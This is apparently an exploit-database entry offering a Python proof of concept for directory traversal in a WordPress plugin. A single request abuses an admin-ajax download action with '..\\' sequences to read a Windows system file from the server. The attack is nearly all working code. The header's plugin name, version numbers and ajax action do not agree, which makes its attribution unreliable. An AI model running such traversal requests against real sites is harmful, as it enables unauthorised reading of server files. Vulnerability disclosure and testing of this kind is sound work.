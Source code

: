     # Exploit Title: WordPress Plugin Anti-Malware Security and Bruteforce Firewall 4.20.59 - Directory Traversal
    # Date: 05.07.2021
    # Exploit Author: TheSmuggler
    # Vendor Homepage: https://gotmls.net/
    # Software Link: https://gotmls.net/downloads/
    # Version: <= 4.20.72
    # Tested on: Windows

    import requests

    print(requests.get("http://127.0.0.1/wp-admin/admin-ajax.php?action=duplicator_download&file=..\..\..\..\..\..\..\..\..\Windows\win.ini", headers={"User-Agent":"Chrome"}).text)